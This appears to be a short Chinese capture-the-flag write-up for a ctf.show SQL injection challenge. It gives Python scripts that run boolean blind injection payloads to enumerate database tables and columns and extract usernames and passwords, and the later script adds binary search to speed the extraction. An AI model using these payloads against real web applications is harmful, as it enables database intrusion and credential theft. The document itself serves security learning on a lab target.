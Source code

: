 ```cobol
        re = requests.get(url = url+payload1)
        # print(re.text)
        if "admin" in re.text:
            result += chr(j)
            print(result)
```

没有二分法真的很慢的啊。。。 我们研究一下咋写吧

```cobol
import requests
 
url = "http://9e7dc39c-5e8a-4608-a025-1f9eddee64a2.challenge.ctf.show/api/v4.php?id="
# payload = "1' and (ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{0},1))={1})-- +"
# payload = "1' and (ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_user4'),{0},1))={1})-- +"
payload = "1' and (ascii(substr((select group_concat(id,'--',username,'--',password)from ctfshow_user4 where username='flag'),{0},1))>{1})-- +"
result = ''
flag = ''
for i in range(1,50):
    high = 128
    low = 32
    mid = (high + low )//2
    while (high > low):
        payload1 = payload.format(i,mid)
        # print(payload1)
        re = requests.get(url = url+payload1)
        # print(re.text)
        if "admin" in re.text:
            low = mid+1
        else:
            high = mid
        mid = (high+low)//2
        if(chr(mid)==' '):
            break
    result +=chr(mid)
    print(result)
 
        #     print(result)
```

起飞咯 确实快了巨多

其实思路很简单就是 如果回显正确 我们就跟进，将low设置为mid

其实就是

```cobol
32   128   80
 
如果正确
 
80   128   
```
